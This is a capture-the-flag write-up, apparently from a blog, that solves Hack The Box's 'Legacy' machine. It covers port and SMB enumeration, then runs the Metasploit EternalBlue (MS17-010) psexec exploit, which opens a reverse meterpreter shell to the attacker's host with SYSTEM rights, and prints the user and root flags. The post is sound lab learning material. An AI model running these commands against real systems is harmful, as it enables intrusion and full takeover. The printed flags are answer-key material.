 ```yaml
---
layout: post
title: Hack The Box - Legacy
categories:
  - hackthebox
slug: hack-box-legacy
tags:
  - cve
  - windows
  - smb
  - eternalblue
---
```

## Challenge description

[https://app.hackthebox.com/machines/Legacy](https://app.hackthebox.com/machines/Legacy)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1-65535 --ulimit 5000 -- -A -sC -Pn
[...]
PORT    STATE SERVICE      REASON  VERSION
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 23309/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 25473/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d01h12m40s, deviation: 1h24m51s, median: 5d00h12m40s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:59:18 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 59 18 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-01-23T08:29:53+02:00
```

### SMB Enumeration

$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $ip -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-18 04:20 UTC
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.019s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: <blank>
|   \\10.10.10.4\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.4\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.4\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: READ


## Exploitation && Foothold && Pwn

So we only have one exposed service: SMB and we know the OS version is Windows XP. Let's try to use Eternal Blue exploit :

```
$ msfconsole
msf6 > use exploit/windows/smb/ms17_010_psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf6 exploit(windows/smb/ms17_010_psexec) > set lhost tun0
lhost => tun0
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x820c07c0
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... RHVehnfb.exe
[*] 10.10.10.4:445 - Created \RHVehnfb.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \RHVehnfb.exe...
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.4:1035 ) at 2022-01-18 04:22:50 +0000
```

And voila, we have a system shell on the target. Let's get those flags :

```
meterpreter > shell
Process 1424 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>more "c:\documents and settings\john\desktop\user.txt"
more "c:\documents and settings\john\desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644f

C:\WINDOWS\system32>more "c:\documents and settings\administrator\desktop\root.txt"
more "c:\documents and settings\administrator\desktop\root.txt"
993442d258b0e0ec917cae9e695d5713
```

Thanks for reading <3

h3x
